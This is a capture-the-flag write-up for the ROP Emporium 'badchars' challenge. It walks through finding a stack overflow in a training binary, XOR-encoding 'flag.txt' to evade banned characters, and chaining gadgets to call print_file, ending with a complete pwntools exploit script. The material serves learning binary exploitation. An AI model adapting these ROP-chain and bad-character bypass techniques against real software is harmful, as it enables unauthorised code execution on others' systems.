









Date: 01.03.2024

# **ROP Emporium - badchars**

> Task: Read flag by invoking `print_file`

## Initial analysis



* `x86-64` binary, LSB
* Utilizes `libbadchars.so` which is attached to this task




* No canaries - good for us
* Unfortunately, NX is enabled, so `ret2shellcode` is impossible to conduct

## Vulnerable entrypoint




Binary takes input from user and processes it in dangerous way, because providing a long input resulted in segmentation fault.

Vulnerable code probably is located in `.so` file, since I didn't spot any input handling in assessed binary.

Above assumptions are confirmed by reverse-engineering `libbadchars.so` in ghidra.




Binary reserves 32 bytes for user input, however in `read` function we can see that, binary takes `0x200` bytes of input into 32 byte array, which results in (stack) buffer overflow.


## Exploitation strategy 

Considering binary protections and type of vulnerability, we can plan our exploit. It will be a ROP chain, since we can't put our own shellcode. Again, our aim is to print the content of flag with `print_file` function, so we need to:
1. Write file name `flag.txt` to memory (because it doesn't exist in binary nor shared object)
2. Invoke `print_file` with `flag.txt` as arg.

Seems to be simple, however there are badchars in this binary: `x,g,a,.`, so we can't simply write `flag.txt` into memory. We need to encode that string with some gadgets, the simplest way to do this is XOR.


```
ropper -f badchars --search "xor"
```




First gadget seems to be most interesting, since we can xor anything that is at address stored in `R15` with key stored in `R14` (r14b has only byte length, so our key will be small).

### XOR function

`XOR_indexes` variable will keep indexes of `flag.txt` that will be decrypted during runtime.

```python
def xor(data,key):
        xor_indexes = []
        xored_data = ""
        for index, char in enumerate(data):
                if char in badchars:
                        xored_c = chr(ord(char) ^ key)
                        xored_data += xored_c
                        xor_indexes.append(index)
                else:
                        xored_data += char
        return bytes(xored_data.encode("latin-1")), xor_indexes

```

Assume that `key=2`.In a result, we will write to memory: `flce,tzt`.

### Writing to memory

To write string to memory we need several things: 

* address of memory, where we are writing our string
* assembler instruction responsible for writing data into registers and into memory

#### Finding memory address




We are interested only in sections where we can write data. The most promising sections are `.bss` and `.data`. However, `.bss` is better choice, because:

1. This section is initialized with 0s, `.data` stores some data, so there is possibility of unexpected behaviour if we overwrite this section.
2. It has perfect size, because our string is indeed 8 bytes long.

So let's write bss address to our exploit `('bss_addr':0x0601038)`.

#### Finding gadgets




I marked the most interesting gadgets:

* `mov qword ptr [r13],r12` - moving content from r12 to location stored in r13, thans to that, we will be able to write encoded flag into memory
* `pop r12; pop r13; pop r14; pop r15` - popping values from stack into registers, thanks to that, we will be able to write our values into registers
* `pop rdi` - because we need to provide `flag.txt` as argument to function `print_file`, first argument (according to x86-64 calling convention) must be stored in `RDI`

The last thing we need to find is `print_file` address, with `pwndbg` you can do that with `p print_file`.


#### Determining offset needed to overflow

In `pwndbg` execute following command:

```
cyclic -a bcdefhijklmnopqrstuvwyz -n 8
```

Above command will create cyclic charset that will be sent into binary. Remebmer to exclude badchars (`-a` option)!
After running it, take the value from `RBP` and execute following command to determine offset.

```
cyclic -a bcdefhijklmnopqrstuvwyz -l fbbbbbbb
```




Total offset will be `32+8=40`.


## Building exploit

### Overflow

Simple function to overflow the buffer.

```python
def overflow(offset):
        return b"A"*offset
```

### Writing into .bss

Follwing function will:
* Pop values from stack into r12-r15
* Write encoded string into `R12`
* Write .bss address to `R13`
* Write garbage into r14, r15 - because we don't need that registers now
* Utilize `mov` gadget, which writes content of `R12` into address specified in `R13` (in this case: `.bss` section).


```python
def write_to_bss(data, xor_key=2):
        return b''.join([
                p64(gadgets["pop_r12-r15"]),
                xor(data,xor_key)[0],
                p64(gadgets["bss_addr"]),
                p64(0xdeadbeefdeadbeef),
                p64(0xdeadbeefdeadbeef),
                p64(gadgets["mov_gadget"]),
        ])
```


### Inversing XOR at runtime

Following function will:

* Pop values from stack into r12-r15
* Write garbage into r12, r13 - because we don't need that registers now
* Write `xor_key` into `R14`
* Write one encoded letter of string stored in `.bss` into `R15`
* Finally perform xor operation


```python
def inverse_xor(xor_indexes, xor_key=2):
        stage = b''
        for indx in xor_indexes:
                stage += p64(gadgets["pop_r12-r15"])
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(xor_key)
                stage += p64(gadgets["bss_addr"] + indx)
                stage += p64(gadgets["xor_gadget"])
        return stage
```

### Calling `print_file`

Following function pops `RDI` from stack, which allows us to write anything to that register. In our case we want to pass pointer to our string (pass address to string), because in `RDI` is stored first argument of function (look at `x86-64` calling convention).

```python
def call_print_file():
        return b''.join([
                p64(gadgets["pop_rdi"]),
                p64(gadgets["bss_addr"]),
                p64(gadgets["print_file"])
        ])
```

### Creating final ROP chain

This functions, takes all previous function and connects them into one chain.

> If you are not Ubuntu user please delete `ubuntu_gadget`

```python
def create_rop_chain(offset, data, key=2):
        return b''.join([
                overflow(offset),
                write_to_bss(data),
                inverse_xor(xor(data,key)[1]),
                p64(gadgets["ubuntu_gadget"]), # add if your machine is ubuntu
                call_print_file()
        ])
```


## Final Exploit

```python
from pwn import *

badchars = ["x","g","a","."]
gadgets = {'ubuntu_gadget':0x04004ee, 'bss_addr':0x0601038, 'pop_r12-r15':0x040069c,'mov_gadget':0x0400634, 'xor_gadget': 0x0400628, 'print_file':0x0400510, 'pop_rdi':0x04006a3}

def overflow(offset):
        return b"A"*offset

"""
pop r12, ...,r15 from stack
write xored data to r12
write virtual bss address to r13
garbage for r14
garbage for r15
copy value from r12 to bss
"""
def write_to_bss(data, xor_key=2):
        return b''.join([
                p64(gadgets["pop_r12-r15"]),
                xor(data,xor_key)[0],
                p64(gadgets["bss_addr"]),
                p64(0xdeadbeefdeadbeef),
                p64(0xdeadbeefdeadbeef),
                p64(gadgets["mov_gadget"]),
        ])


"""
pop r12,...,r15 from stack
write garbage to r12,r13
write xor_key to r14
write char to be xored, into r15
xor r15 with r14
"""
def inverse_xor(xor_indexes, xor_key=2):
        stage = b''
        for indx in xor_indexes:
                stage += p64(gadgets["pop_r12-r15"])
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(xor_key)
                stage += p64(gadgets["bss_addr"] + indx)
                stage += p64(gadgets["xor_gadget"])
        return stage


"""
pop_rdi from stack
write address of "flag.txt" string bo RDI (as arg)
call print_file
"""
def call_print_file():
        return b''.join([
                p64(gadgets["pop_rdi"]),
                p64(gadgets["bss_addr"]),
                p64(gadgets["print_file"])
        ])

def xor(data,key):
        xor_indexes = []
        xored_data = ""
        for index, char in enumerate(data):
                if char in badchars:
                        xored_c = chr(ord(char) ^ key)
                        xored_data += xored_c
                        xor_indexes.append(index)
                else:
                        xored_data += char
        return bytes(xored_data.encode("latin-1")), xor_indexes


def create_rop_chain(offset, data, key=2):
        return b''.join([
                overflow(offset),
                write_to_bss(data),
                inverse_xor(xor(data,key)[1]),
                p64(gadgets["ubuntu_gadget"]), # add if your machine is ubuntu
                call_print_file()
        ])

if __name__ == '__main__':
        p = process("./badchars")
        payload = create_rop_chain(40, "flag.txt")
        p.sendline(payload)
        p.interactive()

```

## PoC

